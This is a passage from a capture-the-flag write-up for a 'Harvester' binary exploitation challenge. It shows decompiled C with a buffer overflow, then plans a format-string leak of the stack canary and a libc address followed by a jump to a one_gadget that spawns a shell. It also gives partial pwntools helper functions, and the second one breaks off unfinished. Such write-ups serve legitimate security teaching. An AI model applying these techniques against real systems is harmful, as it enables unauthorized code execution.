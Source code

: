 ```bash
void stare(){
  char buf[40]; 
  printstr("You try to find its weakness, but it seems invincible..");
  printstr("Looking around, you see something inside a bush.");

  printstr(&you_found_one_pie);
  if ( ++pie == 22 ){ ////////////////////////////////////////////////////////////////////////
    printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
    printstr("\nDo you want to feed it? > ");
    read(0, buf, 64); ////////////////////////////////////////////////////////////////////////
    printstr("This did not work as planned..");
  }
  return;
}

void check_pie(int pie){

  if ( pie <= 0 ){
    printstr(you_dropped_al_your_pie); 
    exit(1);
  }
  if ( pie > 100 || pie == 15 ){ ///////////////////////////////////////////////////////////////
    printstr(you_cannot_carry_more);
    exit(1);
  }
  return;
}

```

So we have some interesting things:
- format string vulnerability inside the fight function but only 5 char taken as input
- we can drop negative number of pie in order to increment our pie 
- in the stare position if we have 22 pie we can make ROP 

We need to spawn a shell in order to be able to cat the flag stored server side.

The plan here is to be able to leak the canary in order to be able to perform a BOF without be detected from the check of the canary and then leak the address of where libc is placed inside the process space and then call a one_gadget 

**ONE_GADGET**: a one gadget is a single gadget that if a certain condition is valid spawn a shell.

The plan is:
1. use the FSB to leak the return address of the ``` main ``` function to the ``` __libc_start_main ```
2. ROP to the one_gadget (we must use one_gadget because we can jump only one time, we cannot make a rop chain!)

first of all I declared some utility function to easily interface with the software.

```python
def leak_at( offset):
    p.recvuntil('> ')       
    p.sendline('1')         
    p.recvuntil('> ')       
    p.sendline(f'%{offset}$p')   
    p.recvuntil('is: ')     
    leak = p.recvuntil('\n')
    return str(leak).strip("b'").strip("\\n'").strip("[1;31m").strip("\\x1b")

def drop_pie(n):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('(y/n)')
    p.sendline('y')
```